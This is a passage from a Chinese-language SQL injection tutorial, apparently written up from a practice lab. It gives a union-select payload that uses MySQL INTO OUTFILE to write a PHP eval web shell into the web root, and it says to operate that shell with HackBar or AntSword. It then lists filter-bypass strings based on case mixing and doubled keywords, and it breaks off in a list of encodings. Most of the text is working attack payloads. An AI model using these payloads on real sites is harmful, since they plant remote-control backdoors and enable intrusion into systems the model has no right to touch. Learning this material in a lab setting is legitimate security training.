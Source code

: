 1. 知道网站的绝对路径。可以通过开源程序、报错信息、phpinfo 界面、404 界面等知道
2. MySQL 对目录有写权限
3. 要有 mysql file 权限（即 MySQL 是否可以对系统文件有读写权限）

<br />

执行如下代码：

```sql
' union select 1, "<?php eval($_POST['a']);" into outfile '/var/www/html/inject.php
```

这里 `eval()` 同 Javascript 的 `eval()`，把字符串当做命令执行

`$_POST['a']` 是指获取 HTTP 请求中的 POST 的参数 `a`

![](https://img.wukaipeng.com/2023/1012-085131-image-20231012085131302.png)

我们也可以在靶场后端看到这个文件确实被注入了：

![](https://img.wukaipeng.com/2023/1012-085222-image-20231012085222224.png)

接着使用 HackBar 来请求 POST 并注入参数 `a`：

![](https://img.wukaipeng.com/2023/1012-085943-image-20231012085942942.png)



或者使用蚁剑：

![](https://img.wukaipeng.com/2023/1013-083921-image-20231013083919924.png)

## 注入绕过

### 大小写绕过

利用大小写匹配绕过，最简单的绕过方式

```
z.com/index.php?page_id=-15 uNIoN sELecT 1,2,3,4
```

### 替换关键字

正则表达式替换掉关键字

```
z.com/index.php?page_id=-15 UNIunionON SELselectECT 1,2,3,4
```

假设只有一次正则全局匹配，那么 `UNIunionON` 中间 `union` 匹配并被删除掉，结果剩下 `UNION`。



### 使用编码

1. URL 编码

2. 十六进制编码
3. Unicode 编码
